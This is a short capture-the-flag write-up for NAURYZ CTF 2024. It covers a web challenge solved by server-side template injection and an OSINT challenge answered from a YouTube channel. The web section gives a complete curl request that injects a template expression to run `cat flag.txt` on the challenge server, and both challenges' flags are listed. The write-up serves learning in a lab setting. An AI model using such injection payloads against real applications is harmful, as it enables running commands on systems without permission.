 # NAURYZ CTF 2024 Write-up

![image](https://github.com/zer00d4y/writeups/assets/128820441/48273d52-3cc4-448c-b409-f2fcba34b0af)

## WEB

### Asena - WEB

![image](https://github.com/zer00d4y/writeups/assets/128820441/2bde51ec-c7e1-4b52-b662-aaa89ebfb436)

SSTI vulnerability

    curl 'http://185.22.64.121:1337/' -X POST -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://185.22.64.121:1337/' -H 'Origin: http://185.22.64.121:1337' -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 'Content-Type: application/x-www-form-urlencoded' -H 'sec-ch-ua-platform: "Windows"' -H 'sec-ch-ua: "Google Chrome";v="118", "Chromium";v="118", "Not=A?Brand";v="24"' -H 'sec-ch-ua-mobile: ?0' -H 'Pragma: no-cache' -H 'Cache-Control: no-cache' --data-raw $'quantity=5\n%3C%25=%20%60cat%20flag.txt%60%20%25%3E'

![image](https://github.com/zer00d4y/writeups/assets/128820441/a045aa22-06b5-42d4-856d-0a19543a8ca1)

FLAG:

    nrzCTF{1_9RE3t_YOU_d3sCEnDAn7_OF_Asen@}

# OSINT

### Ganegabla - OSINT

Find Ganegabla's YouTube channel

![image](https://github.com/zer00d4y/writeups/assets/128820441/7170a811-6efd-42ca-a85d-4417b3e486b8)

`nrzCTF{y0u_` `tub3_`


![image](https://github.com/zer00d4y/writeups/assets/128820441/7733dd93-7f46-4729-b6c9-a12d4a0e616f)

`0s1nt_`

![image](https://github.com/zer00d4y/writeups/assets/128820441/88580224-44e8-48f9-a824-cdcd9c76ebf3)

`t4sk}`

![image](https://github.com/zer00d4y/writeups/assets/128820441/5e4cec51-ef22-4d0a-9f21-a10d50eaab82)

FLAG:

    nrzCTF{y0u_tub3_0s1nt_t4sk}

